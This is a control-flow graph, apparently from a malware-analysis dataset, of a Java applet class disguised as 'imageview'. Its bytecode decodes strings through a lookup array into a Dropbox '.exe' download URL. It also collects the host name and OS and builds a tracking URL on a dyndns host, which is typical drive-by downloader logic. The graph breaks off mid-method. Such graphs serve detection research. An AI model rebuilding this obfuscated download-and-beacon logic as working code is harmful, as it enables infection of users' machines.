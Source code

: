 digraph "" {
    "r0 := @this: imageview"
    "new GiknbqgwShSBPEslNCDt"
    "r0 := @this: imageview"->"new GiknbqgwShSBPEslNCDt";
    "specialinvoke <GiknbqgwShSBPEslNCDt: void <init>()>"
    "new GiknbqgwShSBPEslNCDt"->"specialinvoke <GiknbqgwShSBPEslNCDt: void <init>()>";
    "push 32"
    "specialinvoke <GiknbqgwShSBPEslNCDt: void <init>()>"->"push 32";
    "newarray"
    "push 32"->"newarray";
    "store.r r1"
    "newarray"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push 0"
    "load.r r1"->"push 0";
    "push \"a\""
    "push 0"->"push \"a\"";
    "arraywrite.r"
    "push \"a\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 1"
    "load.r r1"->"push 1";
    "push \"b\""
    "push 1"->"push \"b\"";
    "push \"b\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 2"
    "load.r r1"->"push 2";
    "push \"c\""
    "push 2"->"push \"c\"";
    "push \"c\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 3"
    "load.r r1"->"push 3";
    "push \"d\""
    "push 3"->"push \"d\"";
    "push \"d\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 4"
    "load.r r1"->"push 4";
    "push \"e\""
    "push 4"->"push \"e\"";
    "push \"e\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 5"
    "load.r r1"->"push 5";
    "push \"f\""
    "push 5"->"push \"f\"";
    "push \"f\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 6"
    "load.r r1"->"push 6";
    "push \"g\""
    "push 6"->"push \"g\"";
    "push \"g\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 7"
    "load.r r1"->"push 7";
    "push \"h\""
    "push 7"->"push \"h\"";
    "push \"h\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 8"
    "load.r r1"->"push 8";
    "push \"i\""
    "push 8"->"push \"i\"";
    "push \"i\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 9"
    "load.r r1"->"push 9";
    "push \"j\""
    "push 9"->"push \"j\"";
    "push \"j\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 10"
    "load.r r1"->"push 10";
    "push \"k\""
    "push 10"->"push \"k\"";
    "push \"k\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 11"
    "load.r r1"->"push 11";
    "push \"l\""
    "push 11"->"push \"l\"";
    "push \"l\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 12"
    "load.r r1"->"push 12";
    "push \"m\""
    "push 12"->"push \"m\"";
    "push \"m\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 13"
    "load.r r1"->"push 13";
    "push \"n\""
    "push 13"->"push \"n\"";
    "push \"n\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 14"
    "load.r r1"->"push 14";
    "push \"o\""
    "push 14"->"push \"o\"";
    "push \"o\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 15"
    "load.r r1"->"push 15";
    "push \"p\""
    "push 15"->"push \"p\"";
    "push \"p\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 16"
    "load.r r1"->"push 16";
    "push \"q\""
    "push 16"->"push \"q\"";
    "push \"q\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 17"
    "load.r r1"->"push 17";
    "push \"r\""
    "push 17"->"push \"r\"";
    "push \"r\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 18"
    "load.r r1"->"push 18";
    "push \"s\""
    "push 18"->"push \"s\"";
    "push \"s\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 19"
    "load.r r1"->"push 19";
    "push \"t\""
    "push 19"->"push \"t\"";
    "push \"t\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 20"
    "load.r r1"->"push 20";
    "push \"u\""
    "push 20"->"push \"u\"";
    "push \"u\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 21"
    "load.r r1"->"push 21";
    "push \"v\""
    "push 21"->"push \"v\"";
    "push \"v\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 22"
    "load.r r1"->"push 22";
    "push \"w\""
    "push 22"->"push \"w\"";
    "push \"w\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 23"
    "load.r r1"->"push 23";
    "push \"x\""
    "push 23"->"push \"x\"";
    "push \"x\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 24"
    "load.r r1"->"push 24";
    "push \"y\""
    "push 24"->"push \"y\"";
    "push \"y\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 25"
    "load.r r1"->"push 25";
    "push \"z\""
    "push 25"->"push \"z\"";
    "push \"z\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 26"
    "load.r r1"->"push 26";
    "push \":\""
    "push 26"->"push \":\"";
    "push \":\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 27"
    "load.r r1"->"push 27";
    "push \"/\""
    "push 27"->"push \"/\"";
    "push \"/\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 28"
    "load.r r1"->"push 28";
    "push \".\""
    "push 28"->"push \".\"";
    "push \".\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 29"
    "load.r r1"->"push 29";
    "push \"=\""
    "push 29"->"push \"=\"";
    "push \"=\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 30"
    "load.r r1"->"push 30";
    "push \"&\""
    "push 30"->"push \"&\"";
    "push \"&\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 31"
    "load.r r1"->"push 31";
    "push \"-\""
    "push 31"->"push \"-\"";
    "push \"-\""->"arraywrite.r";
    "new java.lang.StringBuffer"
    "arraywrite.r"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"http://dl.dropbox.com/u/52817590/fresh\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"http://dl.dropbox.com/u/52817590/fresh\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"http://dl.dropbox.com/u/52817590/fresh\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "arrayread.r"
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r2"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "virtualinvoke <imageview: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <imageview: java.net.URL getDocumentBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <imageview: java.net.URL getDocumentBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "store.r r3"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"store.r r3";
    "staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>"
    "store.r r3"->"staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>";
    "virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>"
    "staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>"->"virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"
    "virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "store.r r5"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"store.r r5";
    "push \"os.name\""
    "store.r r5"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "store.r $r238"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"store.r $r238";
    "store.r $r238"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r1";
    "load.r r1"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 26";
    "push 26"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 24";
    "push 24"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 22";
    "push 22"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 24";
    "push 24"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 31";
    "push 31"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 31";
    "push 31"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 6";
    "push 6"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r3"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r3";
